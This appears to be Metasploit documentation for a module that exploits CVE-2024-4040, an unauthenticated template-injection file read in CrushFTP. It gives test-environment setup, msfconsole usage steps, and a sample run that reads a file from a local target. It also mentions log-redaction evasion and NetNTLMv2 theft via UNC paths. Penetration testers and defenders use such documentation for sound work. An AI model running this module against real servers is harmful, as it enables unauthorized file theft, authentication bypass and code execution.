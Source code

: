 ## Vulnerable Application
This module leverages an unauthenticated server-side template injection vulnerability in CrushFTP < 10.7.1 and
< 11.1.0 (as well as legacy 9.x versions). Attackers can submit template injection payloads to the web API without
authentication. When attacker payloads are reflected in the server's responses, the payloads are evaluated. The
primary impact of the injection is arbitrary file read as root, which can result in authentication bypass, remote
code execution, and NetNTLMv2 theft (when the host OS is Windows and SMB egress traffic is permitted).
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/20oYjlmfXa/cve-2024-4040/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, the `TARGETFILE` parameter should be set to the desired
file name. By default, a small CrushFTP XML file, `users/MainUsers/groups.XML`, is the `TARGETFILE` value. Relative 
or full system paths can be provided for Windows, Linux, Mac targets, and UNC paths can be provided for Windows
targets. Though file paths for Windows targets can contain `:` characters, like `C:\Windows\win.ini`, this will result
in payloads not being fully redacted from CrushFTP logs.

## Testing
To set up a test environment:
1. Download an affected version of CrushFTP [here](https://github.com/the-emmons/CVE-2023-43177/releases/download/crushftp_software/CrushFTP10.zip) (SHA256: adc3619937ebb57b3a95c50f78fda5c388d072c0d34a317b9ed64a31127a6d3f).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_fileread_cve_2024_4040`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > show options 

Module options (auxiliary/gather/crushftp_fileread_cve_2024_4040):

   Name        Current Setting             Required  Description
   ----        ---------------             --------  -----------
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      0.0.0.0                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443                         yes       The target port (TCP)
   SSL         false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  true                        no        Store the target file as loot
   TARGETFILE  users/MainUsers/groups.XML  yes       The target file to read. This can be a full path, a relative path, or a network share path (if firewalls permit)
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > check
[+] 127.0.0.1:8080 - The target is vulnerable. Server-side template injection successful!
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Server-side template injection successful!
[*] Fetching anonymous session cookie...
[*] Using template injection to read file: users/MainUsers/groups.XML
[+] File read succeeded! 
 <?xml version="1.0" encoding="UTF-8"?>
<groups type="properties"></groups>



[*] Auxiliary module execution completed
```

